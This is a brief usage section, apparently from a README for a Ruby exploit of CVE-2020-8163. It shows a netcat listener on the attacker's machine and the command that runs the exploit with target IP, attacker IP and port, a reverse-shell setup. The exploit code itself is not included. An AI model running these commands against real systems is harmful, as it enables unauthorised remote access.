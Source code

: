 # Usage
[ Attacker Device ]
$ nc -l 8888

[ Exploit ]
$ ruby CVE-2020-8163.rb ${target ip} ${attacker ip} ${attacker port}

